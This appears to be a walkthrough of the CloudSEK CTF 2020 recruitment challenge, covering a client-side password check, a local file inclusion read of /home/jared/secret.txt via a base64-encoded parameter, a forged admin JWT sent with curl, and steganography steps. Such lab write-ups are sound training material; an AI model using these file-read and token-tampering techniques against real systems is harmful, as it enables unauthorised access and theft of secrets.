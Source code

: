 # CloudSEK-CTF Walkthrough


## **Task 1** - To bypass the login page
- Navigate to the corresponding url *http://54.244.19.42/.*
![](images/login.png)
- As expected by entering arbitrary credentials we get an **"Incorrect credentials"** message.
![](images/invalid-login.png)
- Taking a look at the page source we can notice the peculiar **"loginFunction()"**
![](images/loginFunction().png)
- This function performs a set of checks on the password inputted by the user:
-  By converting the hex string in the outer if block to ASCII we can verify that **"x"** is being evaluated against the string **"CloudSEK_"**
```python3
>>> bytes.fromhex("436C6F756453454B5F").decode("utf-8")
'CloudSEK_'
```
- By decrypting the md5sum value in the inner if block we can verify that **"z"** is being evaluated against the string **"jeniffer"** 
- There are plenty of online tools to decrypt such hashes.
![](images/md5.png)
- Since there is no check against the username, we can leave it blank.
- Thus, by entering the password **CloudSEK_jennifer** we are prompted with the next page.
![](images/jared.png) 

## **Task 2** - To obtain jared's access_token located in the secret.txt file
- As hinted on the web page the **"secret.txt"** file is located in jared's home directory: **"/home/jared"**.
- This suggets a **Local File Inclusion(LFI)** vulnerability, which allows us to effectively read local files present on the host machine and in some cases allow **Remote Code Execution(RCE)**.
- After having experimented for a while I noticed that the default path appended, **"/loader.php?p=bWVzc2FnZTFfdG9famFyZWQudHh0Cg%3D%3D&password="** , is base64-url encoded.
```python3
>>> import base64
>>> base64.urlsafe_b64decode("bWVzc2FnZTFfdG9famFyZWQudHh0Cg==")
b'message1_to_jared.txt\n'
``` 
- This confirms that the page displayed the contents of the file **"message1_to_jared.txt"** after loading it.
- Thus, we have identified the bug and can now try reading the contents of **"/home/jared/secret.txt"** by encoding it in base64-url form, and replacing it in the url.
```python3
>>> base64.urlsafe_b64encode(b"/home/jared/secret.txt")
b'L2hvbWUvamFyZWQvc2VjcmV0LnR4dA=='
```
-  Upon visiting *http://54.244.19.42/loader.php?p=L2hvbWUvamFyZWQvc2VjcmV0LnR4dA==&password=CloudSEK_jeniffer* we can obtain jared's access_token.
![](images/access_token.png)

## **Task 3** - To login into the developer portal using the JWT access_token
- A JWT access_token is a mechanism to ensure integrity of a user.
- It is made up of three parts, **Header.Payload.Signature**, each separated by a dot and base64-url encoded.
- We can decode the token either online or manually to further analyse it.
![](images/access_token_decoded.png)
- To locate the developer portal we can try fuzzing the url with automated scanners, but first it is a good idea to check if there is a **robots.txt** file.
- A **robots.txt** file is used to tell search engine crawlers which files they can or can't request from your site. 
- Let's navigate to *http://54.244.19.42/robots.txt*
![](images/robots.png)
- We can now see the location of the developer login portal.
![](images/dev-login.png)
- Let's make a POST request with **cURL** to the required url.
```bash
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $curl -X POST 54.244.19.42/dev/login.php
No 'access_token' specified
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $curl -X POST 54.244.19.42/dev/login.php --data "access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamFyZWQifQ.9lYEicuJKZAqh8lAX4woWaBWGJ-bGIqWj_gsOsdVjGQ"
<b align=center>This page can only be accessed by admin user</b>
```
- By modifying the payload to **{"user": "admin"}** we get the following.
```bash
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $curl -X POST 54.244.19.42/dev/login.php --data "access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.xLtLdUxXsGB7EqP49a8xQziqpjkVKeJ9o2nix4xLf5M"
<script>window.location.href="../CloudSEK_to_win_page.html";</script>
```
- Navigating to the corresponding page *http://54.244.19.42/CloudSEK_to_win_page.html* we get:
![](images/close-winner.png)

## **Task 4** - Image Steganography
- As hinted by the page we must *look in the dark*.
- Let's download the image and analyse it further.
```bash
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $wget -q http://54.244.19.42/CloudSEK_AboutToWin.jpg
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $file CloudSEK_AboutToWin.jpg 
CloudSEK_AboutToWin.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, comment: "'/ThE_FlAg_PaGe.html'", baseline, precision 8, 1023x491, components 3
```
- The **"file"** command is used to determine the type of file and data contained in it. In this case we have easily identified **"/ThE_FlAg_PaGe.html"**, but most of the times further analysis with the **"exiftool"** command to read the metadata can prove useful.
- Navigating to the corresponding page *http://54.244.19.42//ThE_FlAg_PaGe.html* we get:
![](images/winner.png)

## **Task 5** - Locate the submission form
- This is another image steganography task.
- Let's download the image and analyse it further.
```bash
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $wget -q http://54.244.19.42/you_are_winner_indeed_img.jpg
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $file you_are_winner_indeed_img.jpg 
you_are_winner_indeed_img.jpg: JPEG image data, JFIF standard 1.02, aspect ratio, density 640x639, segment length 16, baseline, precision 8, 852x480, components 3
```
- We can use **steghide**, a popular tool for steganography, to extract the hidden message. The passphrase is the flag, **CloudSEK_CTF_2020{H4cKiNG_i$_FuN}**, as hinted on the webpage.
```
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $steghide --extract -sf you_are_winner_indeed_img.jpg 
Enter passphrase: 
wrote extracted data to "compl3tion_m3ssag3.txt".
┌─[parrot@parrot]─[~/Desktop/cloudsek]
└──╼ $cat compl3tion_m3ssag3.txt 
Congratulations on making it to the end!
Please submit a detailed walkthrough PDF along with proper steps and screenshots on the link below.
We hope to see you in the interview:

https://forms.gle/CA9vHT6XaisS9HgR6

Happy Hacking!

~CloudSEK family
```
We have successfully completed all the tasks! 






